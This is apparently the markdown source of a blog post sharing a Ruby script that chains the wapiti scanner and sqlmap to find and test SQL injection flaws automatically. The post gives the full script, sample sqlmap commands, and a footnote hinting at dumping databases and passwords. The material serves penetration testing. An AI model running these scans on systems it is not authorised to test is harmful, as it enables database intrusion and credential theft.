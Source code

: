 ```yaml
---
layout: post
title: "Fast SQLi Scanning and Beyond"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

Quite a bit of SQL injection going on in these past few weeks. Interesting how when you are doing something it seems like suddenly everyone[^0] is talking about it. Of course, SQLi is one of the [OWASP Top 10][OWASP], so it's pretty common to hear about. Now I have started to cook together some guides on my favorite SQLi automated tools in a 101 type of capacity, but I came across this, and it was just so cool that I am going to have to post it first, and come back to the one-o-one stuff later. What this script does in essence is connect [wapiti][wapiti] speed with the depth of [sqlmap][sqlmap]. Snazzy idea, great execution. The upshot of this little ruby snippet is a very very fast and fairly accurate sqli vulnerability finder, *and* suggested exploit paths, *and* potentially[^1] popping the DB right there. Nice!

So for the tl;dr[^2] crowd, here is the script, left mostly intact from [Volatile Minds][VM]. Big props for writing this, [Brandon][bdon]!

{% highlight ruby linenos %}

#!/usr/bin/env ruby

## Requires wapiti, SQLMap
 
require 'active_support/secure_random'
require 'rexml/document'
 
puts "enter path to wapiti src: "
wapiti_path = gets
#wapiti_path = '/path/to/wapiti/trunk/src/'

puts "enter path to sqlmap: "
sqlmap_path = gets
#sqlmap_path = '/path/to/sqlmap/'
 
wapiti_report_path = '/tmp/wapiti_report_' + SecureRandom.uuid + '.xml'
 
remote_host = ARGV[0]
 
p "Running wapiti..."
`#{wapiti_path}wapiti.py #{ARGV[0]} -f xml -o #{wapiti_report_path}`
 
p "Report saved to #{wapiti_report_path}"
 
p "Parsing results"
 
results = []
 
report = ::File.open(wapiti_report_path, "rb")
doc = REXML::Document.new report.read
 
doc.elements.each('/report/bugTypeList/bugType') do |element|
        bug_type = element.attributes["name"]
 
        next if bug_type != "SQL Injection"
 
        p "Parsing " + bug_type
 
        result = {}
        element.elements.each("bugList/bug") do |bug|
                result[:type] = bug_type
               
                bug.elements.each do |child|
                        if child.name == "url"
                                result[:url] = child.text
                        elsif child.name == "parameter"
                                result[:parameter] = child.text
                        end
                end
                results << result
                result = {}
        end
end
 
results.each do |result|
        next if result[:type] !~ /SQL Injection/
        p "Running sqlmap"
       
        if result[:url].index(result[:parameter])
                url = result[:url].gsub("%BF%27%22%28", "abcd")
       
                params = result[:url].split("?")[1].split("&")
 
                skipped_params = []
                params.each do |param|
                        skipped_params << param.split("=")[0] if not param.index("%BF%27%22%28")
                end
                       
                p "Running GET sql injection test on url: " + url
                sqlmap_command = "#{sqlmap_path}sqlmap.py -u \"#{url}\" --smart --skip=\"#{skipped_params.join(",")}\" --technique=EUS --flush-session --fresh-queries --level=2 --batch"
                out = `#{sqlmap_command}`
                printf out
        else
                url = result[:url]
                p "Running POST sql injection test on url: " + url
                p "With data: " + result[:parameter]
 
                parameter = result[:parameter].gsub("%BF%27%22%28", "abcd")
 
                params = result[:parameter].split("&")
 
                skipped_params = []
                params.each do |param|
                        skipped_params << param.split("=")[0] if not param.index("%BF%27%22%28")
                end
 
                sqlmap_command = "#{sqlmap_path}sqlmap.py -u \"#{url}\" --data=\"#{parameter}\"  --skip=\"#{skipped_params.join(",")}\" --smart --technique=EUS --flush-session --fresh-queries --level=2 --batch"
                p sqlmap_command
                sqlmap_output = `#{sqlmap_command}`
               
                printf sqlmap_output
        end
end
{% endhighlight %}

You can pretty much run it as is[^3], if you can read the code enough to make the few basic alterations you need. It takes one argument, the site you want to hit. Now we can take this apart and see how it works.

You need to specify in the script the path to your tools. Why security tools cannot be written to run from bin in your standard PATH will have to wait for another rant. I added that little bit that will ask you for your fully qualified path to these tools. Useful for first time running, comment out and hardcode it in for extended use. Just don't forget and move your tools to a new location! Basically it runs a wapiti command like this:


{% highlight bash %}
wapiti.py http://example.com/ -f xml -o /tmp/wapiti_report_randomstuff.xml
{% endhighlight %}
    
Which basically just turns wapiti onto a site and saves the output to xml. Alrighty. It then performs some ruby fu, parses out the potentially vulnerable urls and injection points, decides if it is a GET or POST, and the passes it to sqlmap. Sqlmap then runs a couple of tests on the injection point, either classic GET, or a POST, depending on the vulnerability that wapiti has identified. It does this for every vulnerability that wapiti finds, too. So all that sqlmap helpfulness is available to us at every potential injection point. Sounds like a dream. The commands look like this for the interested, this is the GET one. The POST version is similar.

{% highlight bash %}
sqlmap.py -u http://example.com/?id=1 --smart --skip=skip,this,one --technique=EUS --flush-session --fresh-queries --level=2 --batch
{% endhighlight %}

It will kindly kick out the results to stdin. Of course if you like to save these kinds of things (like for evidence logs in a pen test) you can always pipe it out somewhere. So like I said. Slick.

Of course these comments on this script are totally valid:

* But I love using sqlmap to scan for stuff! Cool. Go with what works for you.
* There are so many more options, this script just limits these programs. You are right. This tool is built for speed and hits stuff with hammers. Pen testing surgeons should come back later.
* My grandaddy taught me to only exploit SQLi by hand! Again, whatever works. I am just trying to use this tool to add value to my tests by automating discovery.

For a wrapup, I certainly enjoyed using this script, hope y'all do to. I will be adding it to my trove of similar hacks that smart people put together so that I can be a little more lazy.

***
[^0]: Ok probably not everyone.
[^1]: Disclaimer, you would have to edit the query in the code to actually pop the databases and not just confirm. Also, this is probably a terrible idea... maybe... trying to talk myself out of trying it... `--passwords`
[^2]: I know you are out there
[^3]: If I hear from alot of people that they don't have the required portions, I may detail where/how to get them

[bdon]: https://twitter.com/#!/BrandonPrry
[wapiti]: http://wapiti.sourceforge.net/
[sqlmap]: http://sqlmap.sourceforge.net/
[OWASP]: https://www.owasp.org/index.php/Top_10_2010
[VM]: http://volatile-minds.blogspot.com/